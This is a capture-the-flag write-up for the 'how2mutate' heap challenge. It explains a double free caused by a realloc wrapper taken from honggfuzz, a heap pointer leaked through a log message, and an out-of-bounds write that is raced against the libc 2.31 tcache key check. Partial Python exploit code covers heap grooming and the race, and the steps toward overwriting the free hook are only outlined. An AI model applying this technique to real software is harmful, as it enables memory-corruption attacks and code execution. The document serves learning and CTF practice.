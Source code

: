 # how2mutate


This challenge lets us allocate seeds, optionally mutate them with controlled mutation iterations, free, print and *fuzz* seeds.

Right away let's check add_seed function:
```cpp
void add_seed() {
    int i=0;
    while (i<10 && seeds[i]) i++;
    if (i<10) {
        printf("size: ");
        scanf("%d", &seedssz[i]);
        int sz = seedssz[i]+1;
        if (sz>0 && sz<0x8000) {
            printf("content: ");
            seeds[i] = util_Calloc(sz);
            read(0, seeds[i], seedssz[i]);
        }
    }
}
```
The important part is that size of zero is allowed. The allocation will be of `provided size + 1` but the size recorded in `seedssz` will be the original size.

Now, seed mutation:

```cpp
void mutate_seed() {
    char buf[16];
    printf("index: ");
    read(0, buf, 4);
    if (buf[0]>='0' && buf[0]<='9') {
        int idx = buf[0]-'0';
        if (seeds[idx]) {
            run.dynfile->size = seedssz[idx];
            memcpy(run.dynfile->data, seeds[idx], seedssz[idx]);
            mangle_mangleContent(&run, 1);
            seedssz[idx] = run.dynfile->size;
            seeds[idx] = util_Realloc(seeds[idx], seedssz[idx]);
            memcpy(seeds[idx], run.dynfile->data, seedssz[idx]);
        }
    }
}
```

It passes original size to `realloc`, effectively truncating the allocated chunk to originally provided size. Libc realloc would free the chunk here but what happens in `util_Realloc`?

So the base bug is mishandling the result of `realloc` in  `util_Realloc` wrapper. `realloc` of size zero frees the pointer and return zero, however honggfuzz implementation treats it as an error (and prints the pointer!!!) and frees the original pointer once again:

```cpp
// @ libhfcommon/util.c

void* util_Realloc(void* ptr, size_t sz) {
    void* ret = realloc(ptr, sz); // < free once if size is zero
    if (ret == NULL) {
        PLOG_W("realloc(%p, %zu)", ptr, sz); // free leak :D
        free(ptr); // < free second time if realloc returned null
        return NULL;
    }
    return ret;
}
```


Even though it returns null which effectively marks the seed as freed in the global seeds array, memcpy later won't trigger a crash since the size of copy is zero.


Now how would that be exploited on libc 2.31? The issue is that there're tcache key checks which are performed before it is even decided if the chunk goes to tcache or fastbins - this means that it's not possible to split the same chunk into tcache and fastbin without modifying the tcache key value.

```cpp
    if (__glibc_unlikely (e->key == tcache))
      {
        tcache_entry *tmp;
        size_t cnt = 0;
        LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
        for (tmp = tcache->entries[tc_idx];
         tmp;
         tmp = REVEAL_PTR (tmp->next), ++cnt)
          {
        if (tmp == e)
          malloc_printerr ("free(): double free detected in tcache 2");
        /* If we get here, it was a coincidence.  We've wasted a
           few cycles, but don't abort.  */
          }
      }

    if (tcache->counts[tc_idx] < mp_.tcache_count) // < this is performed after tcache key checks :(
      {
        tcache_put (p, tc_idx);
        return;
      }
```

This issue can be solved with a second bug in seed fuzzing mechanism which runs on a separate thread and processes our contents.

The relevant snippet:
```cpp
int fuzzone(char* buf) {
    //
    if (buf[0] == '0') {
        bool ok=true;
        for (i=2; i<15; i++) {
            buf[i] -= buf[i-1];
            if (buf[i] != buf[i+1])
                ok = false;
        }
        if (ok)
            puts("path 9");
    }
    return 0;
```

The buf is controlled seed contents. It will iterate from indexes 2 and up to index 15 and modify the contents without doing any bounds checks. This is how we corrupt tcache key.

In order to hit this part successfully it has to be executed after first free but before second free. Since we dont directly control the buf contents after first free we have to do some heap grooming so that the LSB of forward pointer inside freed chunk would be equal to ascii `0`. Then it will walk over tcache key while modifying it.

```py
MODE=DONT_WAIT

set_mutate(0)

for i in range(6):
    delete_seed(i)

add_seed("")
mutate_seed(0)


r.recvuntil("realloc(")
tmp = r.recvuntil(",")[2:-1]
print tmp
if len(tmp) % 2:
    tmp += "0"

heap = u64(binascii.unhexlify(tmp)[::-1].ljust(8,"\x00"))
log.info("heap @ " +hex(heap))

#MODE = DONT_WAIT


for i in range(4):
    add_seed("T" * 8)

add_seed("X" * (0xe0 + 0x20 + offset)) # padding
add_seed("A"*8) # fd = "0"


add_seed("") # victim @ 6

for i in range(4):
    delete_seed(i)

delete_seed(5) # delete prev chunk

```

After heap is groomed we start the race


```py
MODE = BUFFERING

spawn_fuzzer_thread()


sleep(sleep_time)
mutate_seed(6)


print("sleep!!!!")
sleep(0.1)

# buffer flushing later
```

If race was successful we get double free inside tcache. 
From there: 
* we get a pointer on top of seeds array
* inject pointers to fake seeds to leak libc
* inject pointer to dynfile structure
* free dynfile structure while attempting to reclaim it (see fun facts)
* if reclaimed succesfully `dynfile->data` pointed to free hook
* seed mutation would do a copy to dynfile data, so we use that to copy system ptr to free hook
* ???
* sice



Fun fact #1, since the challenge was hosted far away from me (probably in China) it was **not** possible to hit the race with synchronized IO so i had to do buffered IO

Fun fact #2, heap state on remote was different from heap state locally so i had to do a lot of arbitrary writes in order to get good state on remote.

Fun fact #3, sending input larger than **0x800** bytes on remote would kill the connection, not sure if it actually crashed but it broke some of my strategies and made the exploit unreliable in some places (e.g dynfile structure reclaiming)

